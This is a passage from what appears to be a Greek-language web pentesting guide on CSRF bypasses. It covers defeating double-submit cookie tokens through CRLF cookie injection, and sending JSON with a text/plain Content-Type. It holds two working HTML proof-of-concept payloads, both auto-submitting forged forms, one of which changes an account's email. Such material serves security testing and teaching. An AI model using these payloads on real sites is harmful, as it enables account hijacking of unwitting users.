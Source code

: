 ### CSRF token is verified by a cookie

Οι εφαρμογές μπορεί να εφαρμόσουν προστασία CSRF διπλασιάζοντας το token τόσο σε cookie όσο και σε παράμετρο αιτήματος ή ρυθμίζοντας ένα cookie CSRF και επαληθεύοντας αν το token που αποστέλλεται στο backend αντιστοιχεί στο cookie. Η εφαρμογή επικυρώνει τα αιτήματα ελέγχοντας αν το token στην παράμετρο αιτήματος ευθυγραμμίζεται με την τιμή στο cookie.

Ωστόσο, αυτή η μέθοδος είναι ευάλωτη σε επιθέσεις CSRF αν η ιστοσελίδα έχει ελαττώματα που επιτρέπουν σε έναν επιτιθέμενο να ρυθμίσει ένα cookie CSRF στον περιηγητή του θύματος, όπως μια ευπάθεια CRLF. Ο επιτιθέμενος μπορεί να εκμεταλλευτεί αυτό φορτώνοντας μια παραπλανητική εικόνα που ρυθμίζει το cookie, ακολουθούμενη από την έναρξη της επίθεσης CSRF.

Παρακάτω είναι ένα παράδειγμα του πώς θα μπορούσε να δομηθεί μια επίθεση:
```html
<html>
<!-- CSRF Proof of Concept - generated by Burp Suite Professional -->
<body>
<script>history.pushState('', '', '/')</script>
<form action="https://example.com/my-account/change-email" method="POST">
<input type="hidden" name="email" value="asd&#64;asd&#46;asd" />
<input type="hidden" name="csrf" value="tZqZzQ1tiPj8KFnO4FOAawq7UsYzDk8E" />
<input type="submit" value="Submit request" />
</form>
<img src="https://example.com/?search=term%0d%0aSet-Cookie:%20csrf=tZqZzQ1tiPj8KFnO4FOAawq7UsYzDk8E" onerror="document.forms[0].submit();"/>
</body>
</html>

```
{% hint style="info" %}
Σημειώστε ότι αν το **csrf token σχετίζεται με το cookie συνεδρίας, αυτή η επίθεση δεν θα λειτουργήσει** γιατί θα χρειαστεί να ορίσετε τη συνεδρία του θύματος, και επομένως θα επιτίθεστε στον εαυτό σας.
{% endhint %}

### Αλλαγή Content-Type

Σύμφωνα με [**αυτό**](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS#simple\_requests), προκειμένου να **αποφευχθούν οι προετοιμασμένες** αιτήσεις χρησιμοποιώντας τη μέθοδο **POST**, οι επιτρεπόμενες τιμές Content-Type είναι:

* **`application/x-www-form-urlencoded`**
* **`multipart/form-data`**
* **`text/plain`**

Ωστόσο, σημειώστε ότι η **λογική των διακομιστών μπορεί να διαφέρει** ανάλογα με το **Content-Type** που χρησιμοποιείται, οπότε θα πρέπει να δοκιμάσετε τις αναφερόμενες τιμές και άλλες όπως **`application/json`**_**,**_**`text/xml`**, **`application/xml`**_._

Παράδειγμα (από [εδώ](https://brycec.me/posts/corctf\_2021\_challenges)) αποστολής δεδομένων JSON ως text/plain:
```html
<html>
<body>
<form id="form" method="post" action="https://phpme.be.ax/" enctype="text/plain">
<input name='{"garbageeeee":"' value='", "yep": "yep yep yep", "url": "https://webhook/"}'>
</form>
<script>
form.submit();
</script>
</body>
</html>
```
### Παράκαμψη Προετοιμασίας Αιτημάτων για Δεδομένα JSON
